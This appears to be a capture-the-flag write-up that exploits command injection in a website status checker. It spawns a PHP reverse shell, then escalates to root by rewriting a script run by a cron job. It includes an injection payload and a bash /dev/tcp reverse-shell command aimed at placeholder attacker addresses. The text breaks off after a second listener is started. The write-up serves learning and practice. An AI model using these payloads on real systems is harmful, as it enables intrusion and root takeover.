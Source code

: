 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![[wimg-1]]

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![[wimg-2]]

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![[wimg-3]]

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![[wimg-4]]

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![[wimg-5]]

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. Navigating to the ``/var/www/`` directory and we can see 2 files.

The files are:
- backup.sh - Owned by the root user.
- my-script.sh - Owned by the www-data user.

![[wimg-6]]

We can see that the ``backup.sh`` file runs the ``my-script.sh`` file as sudo, effectively running as the root user.

Using the command ``cat /etc/crontab``, we can see that there is a cronjob that runs the ``backup.sh`` file every minute. We can abuse this by changing the contents of the ``my-script.sh`` file.

As we own the ``my-script.sh`` file, we can modify it to spawn a reverse shell using the following commands:

```
echo '#/bin/bash' > my-script.sh
echo 'bash -i >& /dev/tcp/YOUR-IP-HERE/PORT-HERE 0>&1' >> my-script.sh
```

Replace ``YOUR-IP-HERE`` with your IP address and ``PORT-HERE`` with your desired port number. Once done, start another netcat listener on the port that was chosen in the above command. In this example, it will be 45102 as seen in the following screenshot.

![[wimg-7]]


